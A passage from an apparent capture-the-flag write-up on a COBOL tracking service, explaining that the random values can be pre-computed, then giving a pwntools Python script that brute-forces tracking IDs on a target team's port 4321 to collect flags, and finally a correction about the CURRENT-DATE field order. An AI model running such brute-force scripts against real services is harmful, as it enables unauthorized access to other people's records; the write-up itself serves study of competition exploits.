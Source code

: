 ```cobol

            STOP RUN.
```

With that, we can pre-compute every possible value for `WS-RAND`.
Then we just brute-force all combinations of those values and the missing digit from the user ID.

```python
from pwn import *

# connect to the service for the target team
r = remote(TEAM, 4321)

r.sendline(b"M") # open the menu
i = 0

# iterate all possible values for the missing user id digit
for k in range(10):
    # iterate all possible WS-RAND values
    for line in open("ws-rand.txt"):
        # every 500 values we scan for the flag and re-open the connection if not found
        if i % 500 == 0 and i:
            # (Q)uit the application
            r.sendline("Q")
            # check whether flag was found
            if printflags(r.recvall(timeout=15)):
                print("FOUND FLAG")
                quit()
            # reconnect
            r = remote(TEAM, 4321)
        # go to the (T)racking menu
        r.sendline(b"T")
        # enter guess for tracking ID
        r.sendline((prefix + str(k) + line).encode())
        # go back to the (M)enu
        r.sendline(b"M")

    # finally, close the connection and scan for the flag
    r.sendline(b"Q")
    if printflags(r.recvall()):
        print("FOUND FLAG")
        quit()
```

After the competition was over, David from FAUST pointed out that the variable names are misleading.
In the [official definition](https://www.ibm.com/docs/en/cobol-zos/6.3.0?topic=functions-current-date) of the struct, the variable order is different:
```cobol
        WORKING-STORAGE SECTION.
        01  WS-CURRENT-DATE-FIELDS.
            05  WS-CURRENT-DATE.
                10  WS-CURRENT-YEAR    PIC  9(4).
                10  WS-CURRENT-MONTH   PIC  9(2).
                10  WS-CURRENT-DAY     PIC  9(2).
            05  WS-CURRENT-TIME.
                10  WS-CURRENT-HOUR    PIC  9(2).
                10  WS-CURRENT-MINUTE  PIC  9(2).
                10  WS-CURRENT-SECOND  PIC  9(2).
                10  WS-CURRENT-MS      PIC  9(2).
            05  WS-DIFF-FROM-GMT       PIC S9(4).
        PROCEDURE DIVISION.
            MOVE FUNCTION CURRENT-DATE TO WS-CURRENT-DATE-FIELDS
```